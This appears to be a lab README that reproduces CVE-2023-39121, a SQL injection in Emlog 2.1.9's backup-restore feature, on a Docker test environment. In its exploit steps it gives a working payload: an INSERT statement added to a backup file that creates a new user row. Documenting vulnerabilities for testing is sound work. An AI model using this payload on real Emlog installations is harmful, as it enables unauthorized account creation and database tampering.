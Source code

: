 # Emlog data.php Background SQL Injection Vulnerability (CVE-2023-39121)

Emlog is an open-source blog system. This vulnerability exists in the data backup/restore functionality where improper input validation allows attackers to execute arbitrary SQL statements through specially crafted backup files.

Reference Links:

- <https://github.com/safe-b/CVE/issues/1#issue-1817133689>
- <https://www.emlog.net/docs/install/install_docker/>
- <https://hub.docker.com/layers/emlog/emlog/pro-latest-php7.4-apache/images/sha256-55bcc4861e1cc99ad79505be05ca3f3e5d9bb5dd16b8f2edc6ae62f7315cb8df>

## Vulnerability Environment

Execute the following command to start an Emlog 2.1.9 server:

```
docker compose up -d
```

After the environment starts, accessing `http://your-ip/install.php` will redirect to the installation page. Register a username and password, then complete the installation. After completion, log in to the admin management interface.

## Exploit Steps

1. Click: System → Data → Start Backup  
   ![Backup Start](https://github.com/vulhub/vulhub/emlog/CVE-2023-39121/1.png)

2. A SQL file will be downloaded  
   ![Downloaded SQL File](https://github.com/vulhub/vulhub/emlog/CVE-2023-39121/2.png)

3. Open the SQL file and add a malicious SQL statement (example: inserting a new user)

   ```
   INSERT INTO emlog_user VALUES('110','','$P$BnTaZnToynOoAVP6T/MiTsZc9ZAQNg.',(select user()),'writer','n','','123@qq.com','','','0','1687261845','1687261845');
   ```

   ![Modified SQL File](https://github.com/vulhub/vulhub/emlog/CVE-2023-39121/3.png)

4. Import the modified SQL file  
   ![SQL Import](https://github.com/vulhub/vulhub/emlog/CVE-2023-39121/4.png)

5. A new user appears, confirming successful SQL injection  
   ![New User Created](https://github.com/vulhub/vulhub/emlog/CVE-2023-39121/5.png)

